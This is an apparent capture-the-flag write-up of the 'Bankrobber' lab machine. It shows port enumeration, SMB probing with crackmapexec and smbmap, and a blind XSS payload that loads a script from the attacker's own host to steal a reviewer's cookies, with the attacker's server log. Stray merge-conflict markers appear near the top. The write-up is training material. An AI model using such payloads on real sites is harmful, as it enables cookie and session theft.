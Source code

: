 **Skills Required**
Enumeration
JavaScript XSS Payloads
SQL Injection
**Skills Learned**
Command Injection
<<<<<<< HEAD
	File read through SQLi
=======
File read through SQLi
Buffer Overflow

Port 80 (http)
port 445 (smb)
port 443(https)

There are two ports pointing to a website and port 445 for SMB, I'm going to use the crackmapexec tool to gather more information about the victim machine.
```
❯ crackmapexec smb 10.10.10.154
SMB         10.10.10.154    445    BANKROBBER       [*] Windows 10 Pro 14393 (name:BANKROBBER) (domain:Bankrobber) (signing:False) (SMBv1:True)
```

I can list the shared drivers with smbmap

```
❯ smbmap -H 10.10.10.154 -u 'null'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

[!] Authentication error on 10.10.10.154
```

However, I receive a "Authentication error" response, which  means  I need valid credentials to be able to list the shared drivers on the victim machine.

Upon checking the website, I found  a login panel and a Registration panel.
I created a new user to gather more information.
It's a Cryptocurrency application that allow me to transfer "E-coin"
A windows pop up indicated that someone would review my transfer.
This is a clue; if someone checks what I'm transferring, maybe I can send some XSS payload and try to steal their cookies.

``` javascript
#check the Blind XSS payload
<script src="http://10.10.14.2/pwn.js"></script>

#On my machine
❯ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [17/Sep/2023 23:48:45] code 404, message File not found
10.10.10.154 - - [17/Sep/2023 23:48:45] "GET /pwn.js HTTP/1.1" 404 -
```
